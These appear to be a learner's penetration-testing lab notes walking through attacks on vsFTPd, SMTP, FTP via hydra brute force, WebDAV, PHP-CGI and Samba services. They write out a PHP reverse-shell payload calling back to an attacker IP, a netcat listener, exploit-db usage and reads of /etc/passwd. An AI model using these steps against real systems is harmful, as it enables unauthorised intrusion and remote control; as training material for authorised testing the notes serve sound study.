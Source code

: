 

#### Port scanning & enumeration 

- service versoin detection scan on target system `nmap -sV -p1-10000 target -oN nmap_10k.txt 
- manual banner grabbing if nmap does not provide any results: `nc - nv ip port`

![[Pasted image 20230916125239.png]] 
this port allowed a connection to a bind shell listener (root shell :O)


#### Targeting vsFTPd

- nmap port 21 
if anonymous login is allowed we can login without credentials
- ftp ip port (username:anonoymous emptypassword)
- `searchsploit vsftpd `
- `searchsploit -m exploitdb_id 
- analyze exploit with `vim` 
- `chmod +x file`
- `python3 file ip `

it is possible that this does not work bc the port used in this exploit can be removed  by the administrator (check port wit nmap) -> exploits might not work bc they have been patched. 

- nmap -sV -p 25 ip (SMTP)
smtp gives you easy way to identify user accounts on target system. 
	- use msfconsole
	- search smtp_enum 
 accounts: add them to textfile. 

Use the account `service` in the bruteforce, not interesting to use service accounts for bruteforce. Only use user-accounts in bruteforce
ftp bruteforce: `hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt target protocol `

Connect to ftp with credentials of useraccount
- `pwd` (if result is /home/service that that confirms that this is a user-account)
- `cd /`
- visit webserver in browser
	- Use webdav to get reverse shell 
		- `ls -al /usr/share/webshells/`
		- you need a php shell:  php-reverse-shell.php
		- copy file to current working directory: `cp /usr/share/webshells/php/php-reverse-shell.php . `
		- rename: `mv php-reverse-shell.php shell.php `
		- modify the file: change the ip to kali ip and the port should match with the port you will be listening on
			- set up netcat in other window: `nc -nvlp 1234 `
		- navigate to root of ftp (ftp stores everything under var)
			- cd /var/www
			- cd dav (only have rights to change this directory)
			- put shell.php 
			- click on the file (the netcat listener window will show a connection, /bin/bash -i)





#### Targeting PHP

- run nmap service scan 
- visit webserver in browser 
	- what version of php is running? 
		- visit /phpinfo.php file in browser
	- `searchsploit php cgi `
	- `searchsploit -m 18836.py . `   (CGI Argument Injected )
	- 

![[Pasted image 20230916153801.png]]
![[Pasted image 20230916154248.png]]modify pwn_code to provide us with a reverse shell

**$sock=fsockopen("IP",1234);exec("/bin/sh -i <&3 >&3 2>&3");** 

(IP = kali ip, port of listner)

Explanation: simple PHP script, this code creates a socket con'nection to a specified IP address and port, and then it executes an interactive shell (`/bin/sh -i`) that reads its input from and writes its output to that socket connection. This can be used for remote command execution,

1. `$sock = fsockopen("IP", 1234);`: This line uses the `fsockopen` function to create a network socket connection to the IP address specified in place of "IP" and the port 1234. The `fsockopen` function is often used in PHP to create socket connections to remote servers or services.
    
2. `exec("/bin/sh -i <&3 >&3 2>&3");`: After establishing the socket connection, this line uses the `exec` function to execute a shell command. The shell command being executed is `/bin/sh -i`, which typically invokes a Unix/Linux shell (e.g., Bash) in interactive mode (`-i`).
    
    - `<&3`: This part of the command redirects the standard input (stdin) of the shell to the socket connection represented by file descriptor 3. In this context, file descriptor 3 is assumed to be associated with the socket created in the previous line.
        
    - `>&3`: This part of the command redirects the standard output (stdout) of the shell to the same socket connection (file descriptor 3).
        
    - `2>&3`: This part redirects the standard error (stderr) of the shell to the same socket connection (file descriptor 3).

run exploit: python2 file ip port 

![[Pasted image 20230916154708.png]]
if you do not get a shell after executing change the 3 to 4: ![[Pasted image 20230916154849.png]]

`cat /etc/*release`
`uname -r`


#### Targeting SAMBA 

SMB implementation of Linux 

- `nmap -sV -p 445 ip `
- banner grabbing on port 445
- msfconsole: `search smb_version` 
- search vulnerabilities for version 
	- `searchsploit samba version `
	- in metasploit:` search samba version `
- use usermap_script 
- `cat /etc/*issue`
- `cat /etc/*release`
- upgrade session 
	- `sysinfo` 
	- `getuid`
	- `cat /etc/passwd `



